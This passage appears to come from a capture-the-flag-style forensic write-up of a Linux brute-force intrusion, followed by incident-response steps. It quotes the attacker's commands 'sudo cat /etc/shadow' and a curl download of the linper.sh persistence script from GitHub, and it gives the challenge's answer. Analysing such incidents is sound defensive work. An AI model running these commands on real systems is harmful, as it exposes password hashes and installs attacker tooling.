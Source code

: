 ![image](https://github.com/user-attachments/assets/8e5a3aae-d8e0-4bce-aa10-e8677a64a4ff)

The first used of `sudo` was to view the content of the file `shadow` which **contains the hashes of the passwords of the users of the system**, so the system passwords could have been compromised. The full command was: `sudo cat /etc/shadow`
	
The other executed command download a script form GitHub repository. The full command was: `curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh`.  This action indicates the attacker's intention to deploy additional tools or malware for further exploitation or persistence. 

**ANSWER: `/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh`**

# Incident Response
Briefly summarizing the incident, the system was compromised by a brute force attack from IP 65.2.161.68 using tools like hydra or brutus. The attacker access the system as root, created a new user called cyberjunkie and execute commands using sudo.

Once the analysis is done, we can respond to the incident follow the following series of steps:

1. Isolate the system form the network to prevent further damage or spread.
2. Block or remove compromised accounts.
3. Delete the account created by the attacker (cyberjunkie)
4. Delete the malicious script
5. Restore the system from a secure backup
6. Change all system passwords because the were compromised when the attacker read the shadow file, which contained the password hashes.
7. Apply MFA if possible
8. Configure an IDS system and conduct periodic security audits.
